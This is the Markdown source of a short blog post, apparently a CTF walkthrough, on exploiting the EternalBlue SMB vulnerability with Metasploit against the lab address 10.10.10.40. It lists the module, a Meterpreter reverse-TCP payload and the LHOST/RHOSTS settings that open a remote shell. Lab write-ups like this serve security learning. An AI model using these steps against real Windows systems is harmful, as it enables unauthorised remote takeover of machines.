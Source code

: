 ```yaml
---
layout: post
title:  "Exploiting Eternalblue using Metesploit"
date:   2020-03-5 12:14:34 +0530
categories: redteam ctf
---
```


<b>Eternalblue</b> is a very critical exploit which was developed by NSA and was leaked by a hacker group called shadow brokers, In 2017 this vulnerability 
brought a worldwide chaos wannacry ransomware which hacked the world used this vulnerability to exploit windows machines. So today I'm going to play
with this vulnerability and exploit it several ways. 

## Exploit eternalblue using metesploit

metesploit contain an exploit for this vulnerability lets use it,
```
use windows/smb/ms17_010_eternalblue
```
lets add the payload,
```
set payload windows/x64/meterpreter/reverse_tcp
```
Add LHOST and RHOSTS,
```
set LHOST tun0
set RHOSTS 10.10.10.40
```
now run the exploit and get the shell,</br>
![eternalblue with msf](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_eternalblue/eternalblue_reverse_shell.png)


